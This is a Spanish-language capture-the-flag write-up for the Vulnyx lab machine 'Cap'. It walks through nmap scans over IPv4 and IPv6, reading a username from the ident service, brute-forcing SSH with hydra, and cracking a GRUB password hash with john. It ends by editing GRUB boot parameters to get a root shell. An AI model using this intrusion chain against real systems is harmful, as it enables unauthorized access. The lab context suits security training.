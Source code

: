 ```yaml
---
layout: post
title: Cap - Vulnyx
---
```


# Writeup
![Cap]({{'/assets/img/Cap/cap.png' | relative_url}})

Vulnyx

----------------------------------------------------------------------------------------------

Iniciamos el escaneo con Nmap en busca de puertos expuestos y reconocer los sevicios que los ocupan, para posteriormente buscar vulnerabilidades.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.2.161 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 13:08 CEST
Initiating ARP Ping Scan at 13:08
Scanning 192.168.2.161 [1 port]
Completed ARP Ping Scan at 13:08, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:08
Scanning 192.168.2.161 [65535 ports]
Discovered open port 22/tcp on 192.168.2.161
Discovered open port 80/tcp on 192.168.2.161
Completed SYN Stealth Scan at 13:08, 0.41s elapsed (65535 total ports)
Nmap scan report for 192.168.2.161
Host is up, received arp-response (0.00012s latency).
Scanned at 2024-04-08 13:08:51 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:04:D1:38 (Oracle VirtualBox virtual NIC)
```
```bash
❯ nmap -sCV -p22,80 192.168.2.161 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 13:09 CEST
Nmap scan report for cap (192.168.2.161)
Host is up (0.00019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:04:D1:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Aqui solo aparece la pagina de apache por defecto y aqui estuve buen rato haciendo fuzzing y nada de nada, hasta que....
![apache-web]({{'/assets/img/Cap/apache-ini.png' | relative_url}})

Empiezo a buscar por **ipv6** 
```bash
❯ ping -6 -c1 ff02::1
PING ff02::1(ff02::1) 56 data bytes
64 bytes from fe80::a00:27ff:fe04:d138%enp3s0: icmp_seq=1 ttl=64 time=0.044 ms

--- ff02::1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```
<p>¿Qué es la dirección FF02 :: 1?
Grupo multicast de todos los nodos FF02::1: grupo multicast al que se unen todos los dispositivos con IPv6 habilitado. Los paquetes que se envían a este grupo son recibidos y procesados por todas las interfaces IPv6 en el enlace o en la red. Esto tiene el mismo efecto que una dirección de broadcast en IPv4.</p>
[Informacion sobre IPV6 - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/pentesting-ipv6)

Una vez que ya tengo ubicada la ipv6 de la maquina victima, empiezo otro escaneo con Nmap.
```bash
❯ ping -I enp3s0 -c1 fe80::dd03:81a:8706:ce8e
ping: Warning: source address might be selected on device other than: enp3s0
PING fe80::dd03:81a:8706:ce8e(fe80::dd03:81a:8706:ce8e) from :: enp3s0: 56 data bytes
64 bytes from fe80::dd03:81a:8706:ce8e%enp3s0: icmp_seq=1 ttl=64 time=0.025 ms

--- fe80::dd03:81a:8706:ce8e ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.025/0.025/0.025/0.000 ms
```
En esta ocasion me descubre tambien el puerto **113 ident**
```bash
❯ nmap -p- --open -sS -T5 -vvv -n -Pn -6 fe80::a00:27ff:fe04:d138%enp3s0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 13:54 CEST
Initiating ND Ping Scan at 13:54
Scanning fe80::a00:27ff:fe04:d138 [1 port]
Completed ND Ping Scan at 13:54, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:54
Scanning fe80::a00:27ff:fe04:d138 [65535 ports]
Discovered open port 113/tcp on fe80::a00:27ff:fe04:d138
Discovered open port 80/tcp on fe80::a00:27ff:fe04:d138
Discovered open port 22/tcp on fe80::a00:27ff:fe04:d138
Completed SYN Stealth Scan at 13:54, 0.73s elapsed (65535 total ports)
Nmap scan report for fe80::a00:27ff:fe04:d138
Host is up, received nd-response (0.000052s latency).
Scanned at 2024-04-08 13:54:35 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 64
80/tcp  open  http    syn-ack ttl 64
113/tcp open  ident   syn-ack ttl 64
MAC Address: 08:00:27:04:D1:38 (Oracle VirtualBox virtual NIC)
```
 Y con este enlace [https://book.hacktricks.xyz/v/es/network-services-pentesting/113-pentesting-ident](https://book.hacktricks.xyz/v/es/network-services-pentesting/113-pentesting-ident) me atasque, **nc y netcat** no funcionaban con ipv6 buscando instale **ncat** y si me funciono.
```bash
❯ ncat -6 -vn fe80::a00:27ff:fe04:d138%enp3s0 113
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Connected to [fe80::a00:27ff:fe04:d138]:113.
113,53632
113,53632:USERID:UNIX:lucas
```
Lo lanzo y analizando el trafico con **wireshar** veo que comunican dos puertos **113 y 53632** lo escribo en la conexion que mantengo con ncat y obtengo un nombre de usuario.
![wireshark]({{'/assets/img/Cap/wireshark.png' | relative_url}})

Como la web no tiene nada y no veo mas por donde ir o que hacer, hago fuerza bruta sobre el protocolo **ssh** con el usuario **lucas**
```bash
❯ hydra 192.168.2.161 ssh -l lucas -P /usr/share/wordlists/rockyou.txt -f -t 10 -I
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-08 16:06:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344399 login tries (l:1/p:14344399), ~1434440 tries per task
[DATA] attacking ssh://192.168.2.161:22/
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 14344318 to do in 2951:31h, 10 active
[STATUS] 70.00 tries/min, 210 tries in 00:03h, 14344189 to do in 3415:17h, 10 active
[STATUS] 65.71 tries/min, 460 tries in 00:07h, 14343939 to do in 3637:58h, 10 active
[22][ssh] host: 192.168.2.161   login: lucas   password: c*******n
[STATUS] attack finished for 192.168.2.161 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
Despues de un buen rato y un cafe, aparece una contraseña valida. Voy a conectarme.
```bash
❯ ssh lucas@192.168.2.161
The authenticity of host '192.168.2.161 (192.168.2.161)' can't be established.
ED25519 key fingerprint is SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:9: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.161' (ED25519) to the list of known hosts.
lucas@192.168.2.161's password: 
lucas@cap:~$ export TERM=xterm
lucas@cap:~$ ls
user.txt
lucas@cap:~$ cat user.txt 
2ae**************************37d
```
Bueno hasta aqui ha sido un buen viaje, pero ya se puede visualizar la flag de bajos privilegios, toca la escalada y convertirse en root. 
Con esto me quede un buen rato dando vueltas, ya que puede tener una manera de escalar privilegios [Escalada de privilegios de reinicio de Sudo](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/)
```bash
❯ ssh lucas@192.168.2.161
lucas@192.168.2.161's password: 
lucas@cap:~$ sudo -l
Matching Defaults entries for lucas on cap:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on cap:
    (root) NOPASSWD: /usr/sbin/reboot
```
Nada funcionaba, busco y busco archivos con capacidad de lectura, aqui otro [enlace -> GRUB (GRand Unifier Bootloader) ](https://www.guia-ubuntu.com/index.php/GRUB). 
Donde un archivo **grub.cfg** puede contener la contraseña cifrada para entrar en grub como usruario root. 
```bash
lucas@cap:~$ find /boot -readable 2>/dev/null

/boot/grub/grub.cfg
```
Efectivamente, despues de tanto buscar y mirar, se ve un password.
```bash
### BEGIN /etc/grub.d/01_password ###
set superusers="root"
password_pbkdf2 root grub.pbkdf2.sha512.10000.E9D*****************************************************************************************************************************.****************************************************************************************************************************163E
### END /etc/grub.d/01_password ###
```
Lo copio y lo guardo en un archivo que nombro **'hash'** y hago fuerza bruta para ver si puedo obtener la contraseña en texto claro. 
Conseguido ya tengo la contraseña para acceder al grub.
```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=PBKDF2-HMAC-SHA512
Using default input encoding: UTF-8
Loaded 1 password hash (PBKDF2-HMAC-SHA512, GRUB2 / OS X 10.8+ [PBKDF2-SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s******s         (?)     
1g 0:00:00:00 DONE (2024-04-08 16:47) 4.761g/s 3200p/s 3200c/s 3200C/s gracie..kelly
Use the "--show --format=PBKDF2-HMAC-SHA512" options to display all of the cracked passwords reliably
Session completed.
```
Una vez que he consiguido obtener la contraseña root para acceder al **grub** reiniciamos la maquina, cuando este la pantall azul en carga presionamos la tecla ***e***. 
Accedo a GNU GRUB y cambio donde pone **ro quiet** y escribo **rw init=/bin/bash**. Pulso F10 la maquina reinicia.
![grub-change]({{'/assets/img/Cap/grub-enter.png' | relative_url}})
![grub-change]({{'/assets/img/Cap/grug-change.png' | relative_url}})
![grub-change]({{'/assets/img/Cap/grub-binbash.png' | relative_url}})

Entro en una shell grub podria decir, introduzco usuario **root** y contraseña que previamente obtuve con **john**
![grub-root]({{'/assets/img/Cap/grub-root.png' | relative_url}})

Una ve aqui ya podemos visualizar la flag de maximos privilegios, no obstante si se quiere obtener una **shell bash** solo he de cambiar la contraseña de root. 
![shell-grub]({{'/assets/img/Cap/shell-grub.png' | relative_url}})
Volver a accerder a la maquina por ssh e ingresar la nueva contraseña que hemos puesto.
```bash
❯ ssh lucas@192.168.2.161
lucas@192.168.2.161's password: 
lucas@cap:~$ su root
Contraseña: 
root@cap:/home/lucas# whoami
root
root@cap:/home/lucas#
```

Espro que te pueda servir de ayuda. GRACIAS por venir.
